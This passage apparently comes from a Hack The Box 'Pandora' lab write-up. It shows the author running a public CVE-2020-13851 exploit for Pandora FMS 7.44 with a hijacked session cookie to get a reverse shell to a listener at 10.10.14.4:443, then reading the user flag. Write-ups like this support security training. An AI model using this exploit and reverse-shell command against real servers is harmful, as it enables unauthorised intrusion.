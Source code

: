 And that allows me to use the session:

![](_/htb-pandora-20240607-5.png)

But more simply, I can use CVE-2020-13851 with the session cookie to get a reverse shell:

```console
kali@kali:~/htb-pandora/pandorafms_7.44 (master)
$ python3 ./pandorafms_7.44.py -t http://127.0.0.1:8888/ -c g4e01qdgk36mfdh90hvcc54umq -lhost 10.10.14.4 -lport 443
Pandora FMS 7.44 CVE-2020-13851
No credentials provided. Using PHP Session cookie.
Sending payload:
```

```console
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.136] 44630
bash: cannot set terminal process group (23892): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console$ id
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/var/www/pandora/pandora_console$ cat ~/user.txt
cat ~/user.txt
05369a...
```

## PE

